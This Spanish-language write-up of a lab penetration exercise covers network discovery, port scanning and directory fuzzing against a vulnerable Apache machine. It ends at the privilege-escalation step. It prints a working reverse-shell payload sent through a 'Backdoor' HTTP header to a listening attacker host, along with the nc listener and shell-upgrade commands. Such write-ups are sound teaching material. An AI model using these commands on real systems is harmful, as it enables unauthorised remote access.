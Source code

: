 # Writeup

## Conocer la red

Lo primero de todos es encontrar equipos dentro de mi red.

`sudo arp-scan -I eth0 --localnet`

![captura-red](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/e6e95007-1bbb-4cf5-b593-0e2619a681a4)

Como ya sabemos, las máscaras que empiezan por 00:0c son de VMware, por lo tanto la máquina atacante es la **192.168.166.104**.

## Conectividad con la máquina atacante

Comprobamos que tenemos conectividad.

`ping -c1 192.168.166.104`

![captura-ping](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/360454c2-5bf1-402f-8d25-9ea9d39d7724)

Vemos que el **ttl** es **64** por lo que significa que es una máquina Linux.

## Escaneo de puertos

Ahora vamos a hacer un escáneo para ver los puertos que están abiertos

`sudo nmap -p- -sS -sC -sV --min-rate=5000 -n -vvv -Pn 192.168.166.104 -oN allPorts`

![captura-escaneo](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/1aa0275b-bcac-4e0b-81fa-c201fe06a703)

Podemos ver que utiliza para el puerto 80 Apache. Lo confirmamos buscando en el navegador la IP atacante.

![captura-apache](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/088be370-e75a-4ca2-9b03-bcd254a291e1)

## Fuzzing

Lo que se me ocurre ahora mismo es hacer Fuzzing para encontrar directorios o subdirectorios. Se pueden utilizar **gobuster**, **wfuzz**. En mi caso voy a utilizar gobuster.

`sudo gobuster dir -w /usr/share/wordlist/Seclist/Discovery/Web-Content/directory-list-2.3-medium.txt -x .txt,.php,.py,.html -u "http://192.168.166.104/"`

![captura-gobuster](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/65937e31-497c-4af9-a131-10c4064e698d)

Encontramos un **info.php**. Lo buscamos en el navegador.

![captura-backdoor](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/e5c527bc-2dd2-41fc-b57b-59b411396243)

Vemos que hay un módulo bastante sospechoso llamado **backdoor** o **puerta trasera**.

![captura-mod](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/ad38e771-b424-4636-a61b-b5c87c6a38c0)

Podemos ejecutar comandos de manera remota **(RCE)**.

![captura-whoami](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/b69bb677-5323-4a08-9ee0-4fb6bdbbce9a)

Vemos que si podemos ejecutar. Por lo tanto lo que se me ocurre en estos momentos es hacer una **reverse shell**.

`curl -sX GET -H "Backdoor: bash -c 'bash -i >& /dev/tcp/192.168.166.103/443 0>&1'" "http://192.168.166.104"`

Pero antes nos ponemos en escucha.

`nc -nlvp 443`

Y ahora sí le damos.

![captura-nc](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/76bd4bc4-2335-4419-9430-d0774dd7eb93)

Volvemos la reverse shell útil y cómoda.

`script /dev/null -c bash`

`CTRL + Z`

`stty raw -echo; fg`

`reset xterm`

`export TERM=xterm`

`export BASH=bash`

Podemos ejecutar **service** como **laurent**. Buscamos el binario en **[GTfobins](https://GTfobins.github.io)**


